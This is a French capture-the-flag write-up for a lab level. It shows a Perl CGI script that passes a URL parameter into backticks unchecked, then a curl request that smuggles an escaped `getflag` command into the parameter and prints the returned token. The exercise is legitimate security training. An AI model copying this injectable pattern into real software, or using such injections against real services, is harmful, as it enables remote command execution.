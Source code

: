 On trouve dans le dossier home un fichier perl nommé **level04.pl** contenant le code suivant:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};						# Permet de mettre un parametre
print "Content-type: text/html\n\n";	# Affiche sous forme HTLM
sub x {									# Fonction x
  $y = $_[0];							# Prend le premier parametre
  print `echo $y 2>&1`;					# Echo le parametre
}
x(param("x"));							# Appelle la fonction</code></pre>
```

On comprend donc que le perl va s'executer si l'on va sur la page IP:4747,
de plus il prend un parametre (grace a l'url) x, qu'il va echo.

<pre><code>> curl IP:4747?x=test
test
</code></pre>

On se rend compte qu'il n'y a pas de verification spéciale par rapport au paramètre, nous essayons donc d'injecter une commande:

<pre><code>> curl IP:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
</code></pre>
> On echappe les **`** pour éviter de mettre le retour de la commande **getflag**, ce que l'on cherche c'est que la commande s'execute au moment du echo